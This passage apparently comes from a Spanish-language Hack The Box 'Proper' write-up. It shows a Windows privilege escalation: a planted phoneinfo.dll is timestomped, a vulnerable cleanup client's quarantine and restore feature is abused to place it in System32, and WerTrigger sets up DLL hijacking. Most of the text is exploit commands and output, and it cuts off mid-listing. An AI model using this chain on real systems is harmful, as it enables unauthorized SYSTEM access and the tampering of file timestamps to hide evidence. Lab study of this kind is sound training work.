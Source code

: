 ```powershell
PS C:\windows\temp\privesc2> dir


    Directory: C:\windows\temp\privesc2


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  11:48 AM          12288 phoneinfo.dll                                                         
-a----         5/1/2023  11:49 AM           9252 Report.wer                                                            
-a----         5/1/2023  11:49 AM          15360 WerTrigger.exe                                                        

PS C:\windows\temp\privesc2> $(Get-Item phoneinfo.dll).CreationTime = $(Get-Date "1/1/2021 6:00 am")
PS C:\windows\temp\privesc2> $(Get-Item phoneinfo.dll).LastAccessTime = $(Get-Date "1/1/2021 6:00 am")
PS C:\windows\temp\privesc2> $(Get-Item phoneinfo.dll).LastWriteTime = $(Get-Date "1/1/2021 6:00 am")
```
Ahora ejecutamos el programa para que nos borre este archivo.

```powershell
PS C:\program files\Cleanup> copy C:\Windows\temp\privesc2\phoneinfo.dll C:\Users\web\Downloads\phoneinfo.dll
PS C:\program files\Cleanup> dir C:/Programdata/cleanup
PS C:\program files\Cleanup> .\client.exe
Cleaning C:\Users\web\Downloads
PS C:\program files\Cleanup> dir C:/Programdata/cleanup


    Directory: C:\Programdata\cleanup


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  11:54 AM          49208 QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xwaG9uZWluZm8uZGxs                      
```
Ahora que ya tenemos el hash lo podemos sustituir con otro que apunte directamente a system32.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper/content$ echo -n "C:\Windows\System32\phoneinfo.dll" | base64
QzpcV2luZG93c1xTeXN0ZW0zMlxwaG9uZWluZm8uZGxs
PS C:\program files\Cleanup> copy C:/programdata/cleanup/QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xwaG9uZWluZm8uZGxs C:/programdata/cleanup/QzpcV2luZG93c1xTeXN0ZW0zMlxwaG9uZWluZm8uZGxs
PS C:\program files\Cleanup> cmd /c "C:\program files\cleanup\client.exe" -R C:\Windows\System32\phoneinfo.dll
Restoring C:\Windows\System32\phoneinfo.dll
mkdir C:\programdata\microsoft\windows\wer\reportqueue\a_b_c_d_e


    Directory: C:\programdata\microsoft\windows\wer\reportqueue


Mode                LastWriteTime         Length Name                                                                  
```